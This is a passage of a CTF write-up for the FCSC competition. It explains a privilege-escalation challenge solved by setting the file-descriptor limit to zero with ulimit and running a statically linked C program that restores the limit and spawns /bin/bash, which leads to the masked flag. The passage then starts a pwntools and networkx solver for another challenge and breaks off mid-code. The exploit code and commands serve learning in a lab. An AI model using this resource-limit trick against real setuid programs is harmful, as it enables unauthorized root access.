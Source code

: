 Obviously I had a problem due to my ulimit -Sn 0 which decrease the soft limit of openned file descriptors. :)

So the next step was to undo what I had done with ulimit -n 0 and we could not chmod +x a sh file on the server, I wrote another little c programm (I am not a c monster at all, I survive but I rather do python or Java).


```python
challenger@privescme:/tmp/kkam$ cat a.c
#include <stdlib.h>
#include <unistd.h>
#include <sys/time.h>
#include <sys/resource.h>
#include <stdio.h>

int main(void)
{
        struct rlimit lim = {1024, 1024};        
        setrlimit(RLIMIT_NOFILE,&lim);
        system("/bin/bash");
        return 0;
}
```


```python
challenger@privescme:/tmp/kkam$ gcc -static -o a a.c
challenger@privescme:/tmp/kkam$ ulimit -Sn 0
challenger@privescme:/tmp/kkam$ ~/stage1/stage1 /dev/unexisting /tmp/kkam/a
-bash: start_pipeline: pgrp pipe: Too many open files
Ok, well done
challenger@privescme:/tmp/kkam$ cat ~/stage1/flag.txt 
FCSC{****}
```

Restrospectively, we understand that if the file was not statically linked it may not have been possible : it opens librairies, load them and close them, and use these free file descriptors to read /dev/urandom, so we are screwed because either we can't launch the program or we don't win.
I was really happy to learn the existence of this limitations as it can be useful in more than one case :). I spend too much time on my race condition but it made me do c and research enough to find an another way :).
Now, maybe there is something we can do my doing ./stage1 flag.txt /hop. I will look for it.

All the challenges in the competition were great, thank you !!!
Next year I will be back with real poney-ing skills !

## Ventriglisse 

A solution based on networkx :).

```python
from pwn import *
import base64
from PIL import Image
from io import BytesIO
import networkx
import numpy as np



def solve(im):
    print(im.size)
    nx = im.size[0]//64-2 
    ny = im.size[1]//64 -3
    print(nx,ny)
    X_offset = 64
    Y_offset = 2*64
```